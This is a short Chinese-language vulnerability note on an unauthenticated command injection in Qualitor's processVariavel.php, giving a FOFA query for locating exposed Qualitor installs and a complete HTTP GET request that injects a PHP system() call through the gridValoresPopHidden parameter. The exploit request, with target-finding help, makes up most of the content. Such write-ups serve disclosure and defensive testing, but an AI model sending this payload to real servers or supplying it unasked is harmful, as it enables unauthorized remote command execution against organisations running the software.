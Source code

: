 # Qualitor processVariavel.php存在未授权命令注入漏洞

# 一、漏洞简介
Qualitor processVariavel.php存在未授权命令注入漏洞

# 二、影响版本
+ Qualitor 

# 三、资产测绘
+ fofa`app="Qualitor-Web"`
+ 特征

![1727509167970-d543fa15-b1c4-40b9-91b1-f7e9d6b79657.png](./img/L8aYuzmwqs7PAe-c/1727509167970-d543fa15-b1c4-40b9-91b1-f7e9d6b79657-280269.png)

# 四、漏洞复现
```java
GET /html/ad/adpesquisasql/request/processVariavel.php?gridValoresPopHidden=echo%20system("dir"); HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

![1727509161767-de95985f-2148-44dd-93cb-de328a80fd07.png](./img/L8aYuzmwqs7PAe-c/1727509161767-de95985f-2148-44dd-93cb-de328a80fd07-616639.png)



> 更新: 2024-10-22 09:36:08  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qxvfq9fqnxr606r4>